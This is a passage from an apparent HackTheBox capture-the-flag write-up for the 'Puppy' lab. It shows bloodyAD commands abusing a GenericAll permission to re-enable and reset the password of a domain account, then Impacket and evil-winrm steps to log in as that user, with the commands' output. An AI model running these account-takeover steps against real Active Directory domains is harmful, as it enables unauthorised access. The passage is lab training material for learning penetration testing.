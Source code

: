 Going back a step, `ant.edwards` has the `GenericAll` permission on `adam.silver`. We can use this to **re-enable** the account!
```bash
┌──(kali@kali)-[~/puppy.htb]
└─$ sync-ad bloodyAD --host dc.puppy.htb -d puppy.htb -u 'ant.edwards' -p '<PASSWORD_REDACTED>' remove uac 'adam.silver' -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from adam.silver's userAccountControl
```

Trying to authenticate as `adam.silver` using the `KeePass` credentials may not work
```bash
┌──(kali@kali)-[~/puppy.htb]
└─$ sync-ad getTGT.py -dc-ip 10.10.11.70 'puppy.htb/adam.silver:<PASSWORD_REDACTED>'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Kerberos SessionError: KDC_ERR_PREAUTH_FAILED(Pre-authentication information was invalid)
```

However we can change the password for `adam.silver` using `ant.edwards`' privileges!
```bash
┌──(kali@kali)-[~/puppy.htb]
└─$ sync-ad bloodyAD -d puppy.htb -u 'ant.edwards' -p '<PASSWORD_REDACTED>' -k --host dc.puppy.htb set password 'adam.silver' 'Dasian123!'
[+] Password changed successfully!
```

Now we can authenticate as `adam.silver`
```bash
┌──(kali@kali)-[~/puppy.htb]
└─$ sync-ad getTGT.py -dc-ip 10.10.11.70 'puppy.htb/adam.silver:Dasian123!'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Saving ticket in adam.silver.ccache

┌──(kali@kali)-[~/puppy.htb]
└─$ export KRB5CCNAME=/home/kali/puppy.htb/adam.silver.ccache
```

Login and grab the `user.txt` flag
```bash
sync-ad evil-winrm -i dc.puppy.htb -r puppy.htb
```

![htb-puppy-user-txt](images/HTB-puppy/htb-puppy-user-txt.png)
> Kerberos authentication with `evil-winrm` need to have the `/etc/krb5.conf` file set correctly! If you're following along we did this earlier
{: .prompt-tip }
